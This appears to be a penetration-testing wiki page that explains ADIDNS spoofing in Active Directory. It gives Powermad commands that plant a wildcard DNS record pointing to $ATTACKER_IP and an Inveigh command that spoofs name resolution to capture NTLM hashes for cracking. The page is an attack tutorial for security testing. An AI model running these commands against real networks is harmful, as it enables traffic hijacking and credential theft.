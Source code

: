 # ADIDNS spoofing

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services \(AD-DS\) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS \(ADIDNS\).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a man-in-the-middle and further attacks can be operated.

Since ADIDNS zone DACL \(Discretionary Access Control List\) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** \(a DNS specific protocol used by machine accounts to add and update their own DNS records\). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different \(A, AAAA, CNAME, MX, and so on\).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be \(only if the record doesn't already exist, which is the case by default\).

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. \([source](https://blog.netspi.com/exploiting-adidns/#wildcard)\)

## Practice

### Manual record manipulation

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add/view/edit/enable/disable/remove records. In the following examples, the wildcard \(`*`\) record is targeted but the examples should also work with other records \(except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)\).

{% tabs %}
{% tab title="Get/Read" %}
The following command can be used to get the value populated in the DNSRecord attribute of a node.

```bash
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord
```
{% endtab %}

{% tab title="Add" %}
The following command creates a wildcard record, sets the `DNSRecord` attribute and sets the `DNSTombstoned` attribute, allowing any authenticated user to perform modifications to the node \(this helps maintain control of the node, even when the owner accounts gets deleted. Pretty useful after a pentest\).

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endtab %}

{% tab title="Set/Edit" %}
The `Set-ADIDNSNodeAttribute` function can be used to append, populate, or overwrite values in a DNS node attribute. In this case, the command below can be used to set/overwrite the record's value.

```bash
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose
```
{% endtab %}

{% tab title="Enable" %}
A tombstoned record can be turned again into a valid record with the following command. This should be used in place of `New-ADIDNSNode` when working with nodes that already exist due to being previously added.

```bash
Enable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Disable" %}
A record can be disabled \(i.e. tombstoned\) with the following command. This means the record will still exist but will not be used when resolving names.

```bash
Disable-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Remove" %}
The following command can be used to fully remove a record.

```bash
Remove-ADIDNSNode -Node *
```
{% endtab %}

{% tab title="Check/Resolve" %}
While `ping` can absolutely be used for the job, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to resolve names \(all DNS spoofing attacks need to be stopped in order to avoid false results\).

```bash
Resolve-DnsName NameThatDoesntExist
```

That command will either return an IP address, indicating that the wildcard record exists \(or that `NameThatDoesntExist` is an actual explicit record\), or return an error stating that the DNS name doesn't exist, indicating that the wildcard record doesn't exist.
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**TL; DR**: the following command will add a new wildcard record \(if it doesn't already exist\) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records created for tests failed. The records were shown as tombstoned or nonexistant when using functions like Get-ADIDNSNodeOwner, Get-ADIDNSNodeAttribute, and so on. However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

On UNIX-like systems, [adidnsdump](https://github.com/dirkjanm/adidnsdump) \(Python\) can be used for enumeration and export of all DNS records in the Active Directory Domain or Forest DNS zones.

```bash
adidnsdump -u "DOMAIN\user" -p 'password' --include-tombstoned $DOMAIN_CONTROLLER
grep "*" records.csv
```

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` \(to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/)\)

```text
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## References

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html\#spoofing-active-directory-integrated-dns" %}



